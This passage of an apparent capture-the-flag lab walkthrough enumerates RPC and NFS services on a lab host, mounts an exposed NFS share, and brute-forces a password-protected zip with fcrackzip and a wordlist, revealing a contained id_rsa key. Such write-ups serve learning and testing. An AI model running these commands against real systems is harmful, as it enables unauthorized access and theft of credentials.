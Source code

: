 But nothing interest 

## exploit RPC protocol

```
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33989/udp   mountd
|   100005  1,2,3      36533/udp6  mountd
|   100005  1,2,3      44881/tcp   mountd
|   100005  1,2,3      54501/tcp6  mountd
|   100021  1,3,4      43309/tcp   nlockmgr
|   100021  1,3,4      45365/tcp6  nlockmgr
|   100021  1,3,4      46924/udp6  nlockmgr
|   100021  1,3,4      53564/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
```
nfs mounted volumes very interesting `showmount -e 192.168.1.113`

```
Export list for 192.168.1.113:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

so I mount this nfs volume to my local drive

`sudo mount -t nfs 192.168.1.113:/srv/nfs /mnt/dev/`

![mount nfs local drive](./assets/mount-nfs-local-drive-ls.png)

but I cannot unzip it because it has password so I will use `fcrackzip` to brute force the password

`fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt save.zip` 

```
parrot# fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt save.zip 
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101
parrot# 
```
